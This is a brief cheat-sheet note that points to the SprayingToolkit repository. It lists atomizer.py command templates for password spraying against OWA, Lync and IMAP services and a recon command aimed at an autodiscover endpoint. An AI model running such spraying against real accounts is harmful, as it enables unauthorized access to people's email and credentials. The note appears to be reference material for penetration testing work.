 ### source
https://github.com/byt3bl33d3r/SprayingToolkit  

### passwordspray (owa, lync, imap)
```
python3 atomizer.py owa <rhost> <passwords> <userFile>
```

### recon
```
python3 atomizer.py owa <rhost>/autodiscover/autodiscover.xml' --recon
```


